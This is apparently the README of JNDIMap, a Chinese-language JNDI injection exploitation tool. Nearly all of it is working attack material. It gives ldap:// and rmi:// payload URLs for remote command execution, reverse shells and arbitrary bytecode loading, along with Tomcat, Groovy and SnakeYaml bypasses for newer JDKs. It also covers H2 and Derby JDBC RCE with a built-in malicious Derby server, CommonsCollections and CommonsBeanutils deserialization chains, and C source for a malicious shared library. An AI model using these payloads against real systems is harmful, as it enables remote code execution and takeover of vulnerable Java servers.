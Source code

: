 # JNDIMap

JNDIMap 是一个 JNDI 注入利用工具, 支持 RMI 和 LDAP 协议, 包含多种高版本 JDK 绕过方式

目前支持以下功能

- DnsLog
- 命令执行
- 原生反弹 Shell (支持 Windows)
- 加载自定义 Class 字节码
- Tomcat/Groovy/SnakeYaml Bypass
- Commons/Tomcat DBCP, Druid JDBC RCE
- NativeLibLoader 加载动态链接库
- MLet 探测可用 Class
- LDAP 反序列化

## Build

目前 Release 版本暂未发布, 推荐手动编译

```bash
git clone https://github.com/X1r0z/JNDIMap
cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## Usage

```bash
Usage: java -jar JNDIMap.jar [-i <ip>] [-r <rmiPort>] [-l <ldapPort>] [-p <httpPort>] [-h]
````

`-i`: 服务器监听 IP (即 codebase, 必须指定为一个目标可访问到的 IP, 例如 `192.168.1.100`, 不能用 `0.0.0.0`)

`-r`: RMI 服务器监听端口, 默认为 `1099`

`-l`: LDAP 服务器监听端口, 默认为 `1389`

`-p`: HTTP 服务器监听端口, 默认为 `3456`

`-h`: 显示 Usage 信息

## Feature

注意传入的 Base64 均为 **Base64 URL 编码**, 即把 `+` 和 `/` 替换为 `-` 和 `_`

以下路由除 `/Deserialize/*` (LDAP 反序列化) 以外, 均支持 RMI 和 LDAP 协议

对于 RMI 协议, 只需要将 `ldap://127.0.0.1:1389/` 替换为 `rmi://127.0.0.1:1099/` 即可

### Basic

直接通过 JNDI Reference 加载远程 Class

Java 版本需小于 8u121 (RMI 协议) 或 8u191 (LDAP 协议)

```bash
# 发起 DNS 请求
ldap://127.0.0.1:1389/Basic/DnsLog/xxx.dnslog.cn

# 命令执行
ldap://127.0.0.1:1389/Basic/Command/open -a Calculator
ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# 加载自定义 Class 字节码

# URL 传参加载
ldap://127.0.0.1:1389/Basic/FromCode/<base64-java-bytecode>
# 从运行 JNDIMap 的服务器上加载字节码
ldap://127.0.0.1:1389/Basic/FromPath/<base64-path-to-evil-class-file>

# 原生反弹 Shell (支持 Windows)
ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
```

### Bypass

通过以下方式绕过高版本 JDK 限制, 支持 Basic 所有功能

- Tomcat BeanFactory + ELProcessor (Tomcat 版本需小于 8.5.79)
- Groovy ClassLoader/Shell
- SnakeYaml

```bash
# Tomcat Bypass
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Groovy Bypass
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator

# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator
```

### MLet

通过 MLet 探测 classpath 中存在的类

如果 `com.example.TestClass` 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class` 请求

```bash
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

### NativeLibLoader

通过 NativeLibLoader 加载目标服务器上的动态链接库

需要先提前以其它方式在目标机器上写入一个 dll/so/dylib

注意传入的 path 为绝对路径, 且不能包含后缀名

例如: 服务器上存在 `/tmp/evil.so`, 则 path 为 `/tmp/evil`

```bash
ldap://127.0.0.1:1389/NativeLibLoader/<base64-path-to-native-library>
```

动态链接库源码

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("open -a Calculator");
}
```

编译

```bash
# macOS
gcc -shared -fPIC exp.c -o exp.dylib
```

### JDBC RCE

支持 Commons/Tomcat DBCP, Druid JDBC RCE

将以下 URL 中的 Factory 替换为 CommonsDbcp1, CommonsDbcp2, TomcatDbcp1, TomcatDbcp2, Druid 其中之一

#### H2

通过 H2 JDBC URL 的 INIT 参数执行 SQL 语句

三种方式 RCE: CREATE ALIAS/Groovy/JavaScript

```bash
ldap://127.0.0.1:1389/Factory/H2/Alias/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/Groovy/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JavaScript/open -a Calculator
```

#### Derby

Derby 主从复制反序列化 RCE

```bash
# 1. 创建数据库
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>

# 2. 使用 JNDIMap 快速启动恶意 Derby Server
java -cp JNDIMap.jar map.jndi.server.DerbyServer -g "/CommonsCollectionsK1/Command/open -a Calculator"

# 3. 指定 Slave 信息, database 即为上面创建的数据库名称
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>
```

启动内置的恶意 Derby Server

```bash
Usage: java -cp JNDIMap.jar map.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-f <file>] [-h]
```

`-p`: Derby Server 监听端口, 默认为 `4851`

`-g`: 指定 Gadget, 如 `/CommonsCollectionsK1/Command/open -a Calculator` (即下文 `/Deserialize/*` 系列路由)

`-f`: 指定自定义序列化数据文件

`-h`: 显示 Usage 信息

### Deserialize

即 LDAP 反序列化, 不支持 RMI 协议

JNDIMap 内置 CommonsCollections K1-K4 和 CommonsBeanutils1NoCC 利用链, 同时也支持自定义数据反序列化

```bash
# 自定义数据反序列化
ldap://127.0.0.1:1389/Deserialize/<base64-serialize-data>

# CommonsCollectionsK1 反序列化 (3.1 + TemplatesImpl), 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK1/ReverseShell/127.0.0.1/4444

# CommonsCollectionsK2 反序列化 (4.0 + TemplatesImpl), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK2/Command/open -a Calculator

# CommonsCollectionsK3 反序列化 (3.1 + Runtime.exec), 仅支持命令执行
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK3/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==

# CommonsCollectionsK4 反序列化 (4.0 + Runtime.exec), 功能同上
ldap://127.0.0.1:1389/Deserialize/CommonsCollectionsK4/Command/open -a Calculator

# CommonsBeanutils1NoCC 反序列化 (1.9.4, 无需 commons-collections 依赖), 使用 TemplatesImpl, 支持命令执行和反弹 Shell
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/open -a Calculator
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yCg==
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils1NoCC/ReverseShell/127.0.0.1/4444
```